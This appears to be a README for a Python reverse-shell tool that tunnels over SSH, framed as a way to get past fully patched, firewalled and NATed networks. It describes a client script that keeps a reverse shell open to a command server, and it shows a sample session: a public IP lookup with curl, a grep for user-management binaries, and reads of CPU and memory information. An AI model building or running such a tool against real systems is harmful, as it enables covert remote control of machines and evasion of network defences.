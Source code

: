 Sometimes you get stuck with a secure environment where all the servers and end-clients are fully patched, updated and firewalled. Network firewall rules have been configured properly, and all internal clients are NATed to the Internet.
<br>
<br>

<b>main.py</b> - runs on the remote client, attempts to connect to server.py via ssh. After connection, a reverse shell is maintained.

<b>server.py</b> - accepts the incoming ssh connection and issues commands to the remote client.

<b>id_rsa</b> - use ssh-keygen to generate your own private key on the server

<b>poetry.lock</b> and <b>pyproject.toml</b> - Packager files

<br>
<br>
/>>reset

Listening for connection...

Command Shell Open



/>>ls /usr/sbin | grep user

adduser
deluser
newusers
useradd
userdel
usermod

/>>python -V

Python 3.8.2

/>>curl ifconfig.me

35.223.251.99

/>> lscpu

neIntel

cpu family	: 6

model		: 63

model name	: Intel(R) Xeon(R) CPU @ 2.30GHz

stepping	: 0

microcode	: 0x1

cpu MHz		: 2299.998

cache size	: 46080 KB

physical id	: 0

siblings	: 4

core id		: 1

cpu cores	: 2

/>> cat /proc/meminfo

MemTotal:       26694668 kB

MemFree:        19898648 kB

MemAvailable:   23455560 kB

Buffers:          315700 kB
